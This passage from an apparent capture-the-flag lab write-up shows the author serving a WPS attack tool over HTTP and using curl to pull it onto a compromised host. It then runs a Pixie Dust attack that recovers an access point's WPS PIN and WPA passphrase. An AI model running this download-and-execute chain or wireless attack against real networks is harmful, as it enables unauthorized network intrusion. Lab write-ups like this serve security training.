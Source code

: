 
**Start a HTTP server for the transfer**:
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**And download it into /tmp of WifineticTwo**
```bash
root@attica03:/opt/PLC/OpenPLC_v3/webserver# cd /tmp/
root@attica03:/tmp# curl http://10.10.14.100/oneshot -o oneshot
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 52408  100 52408    0     0   291k      0 --:--:-- --:--:-- --:--:--  292k
# Give it execute permissions:
root@attica03:/tmp# chmod +x oneshot 
```

Now, I will take the MAC of the access point from the scan above and execute a pixie dust attack with `-K`:

```bash
root@attica01:/tmp# ./oneshot -b 02:00:00:00:01:00 -i wlan0 -K
[*] Running wpa_supplicant...
[*] Trying pin 12345670...
[*] Scanning...
[*] Authenticating...
[+] Authenticated
[*] Associating with AP...
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response...
[*] Received WPS Message M1
[P] E-Nonce: d1b07d05a4edfd665d195712dbf93230
[*] Building Message M2
[P] PKR: 67fc7584961d58d52a8461703c9130d9cf61a39ebd2a184f48dd86e864b958dbdfc4ea240cd55f1c0855d93cffbaed4268d05deb5cc57ae9c47a2601c57c9ce53aa6d073cf2f7cfc096ad838752b3b7bb3b6d47363bad1ef66dfab8e72ca561f2d1c5fc1592f8a4f706402007ef56081ab0e56c62c78d62b110123f2c54800425151b604d0b2da88c493f13a687cb99f566de70bc848b8fee1e830cd154919f6c72a6cfcaa9517ffe9385b6ae7a15b3e6234f2a3bf8d122a7be3e8822fb2bb2f
[P] PKE: d67e221ebe6459141848b5736670d8cc963f1b03704e17a1f8c61434957f60bc7da828180ddc6bad9266d54a18d551f2542ef0eedcef1e904588cd9e4da6a06c0e935775dd869e1e72f3b1b37e58da3d34afbabb5638f528e4c1ad5e4d6cf71f3d4d836a29fdcdafc8d0ecd56c8c7c1dccc069962e1c0cafcb5445daeb2904d46846c58ae697c7553535f65ab3da02b59d3f90880cb149699ea16266297c425bc6bfca4bafb5b81a5a7c17ce0f94739380ea9085732486adb9f5455a95170a61
[P] Authkey: e1705f10ed50bc70433412bb70b8ac4af666bfb5fa1deb02c4c1ded77dd5c9d8
[*] Received WPS Message M3
[P] E-Hash1: 26c137579795ad7e9920d3c285fd3dde02bff190417ed9efde42f2d9fb4574c1
[P] E-Hash2: f9510ac9f5187398fd53c3b8ee5637f25d3fe27d59c1ff8ffafe942fe5c14949
[*] Building Message M4
[*] Received WPS Message M5
[*] Building Message M6
[*] Received WPS Message M7
[+] WPS PIN: 12345670
[+] WPA PSK: NoWWEDoKnowWhaTisReal123!
[+] AP SSID: plcrouter
```
